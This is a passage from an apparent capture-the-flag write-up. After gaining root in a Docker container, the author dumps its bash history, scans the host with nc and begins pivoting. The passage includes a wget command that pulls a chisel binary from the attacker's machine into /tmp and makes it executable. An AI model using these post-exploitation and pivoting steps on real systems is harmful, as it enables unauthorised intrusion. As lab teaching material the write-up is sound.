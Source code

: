 However, it seems like we couldn't crack that hash.

**Bash history file:**
```shell
root@8b39a559b296:/home# cat /root/.bash_history | sort |uniq

./check-config.sh 
apt autoremove openssh-client
apt install grub-update
apt install nano
apt install vi
apt install vim
apt remove --purge autoremove open-ssh*
apt remove --purge autoremove openssh-*
apt remove --purge autoremove openssh=*
apt remove --purge ssh
apt update
apt-get install --reinstall grub
cd /tmp
cd bakery/
cd site/
chmod +x check-config.sh
clear
exit
grub-update
ifconfig
ip addr
ls
nano /etc/default/grub
nano settings.py 
nc
ssh
ssh 172.17.0.1
ssh 172.17.0.2
ssh ramsey@172.17.0.1
vi /etc/default/grub
wget https://raw.githubusercontent.com/moby/moby/master/contrib/check-config.sh
```

**As you can see, there is a SSH command, which connecting to `172.17.0.1` (Host) as user `ramsey`.**

**Let's use `nc` to scan all open ports:**
```shell
root@8b39a559b296:/home# nc -zv 172.17.0.1 1-65535
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 5003 (?) open
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 22 (ssh) open
```

- Host `172.17.0.1` open port: `22`

> Note: The port `5003` is opened because the web application is listening on **all interfaces**.

**Let's use `chisel` to do port forwarding:**
```shell
┌[root♥siunam]-(/opt/chisel)-[2023.01.13|09:20:16]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

root@8b39a559b296:/home# wget http://10.9.0.253/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```
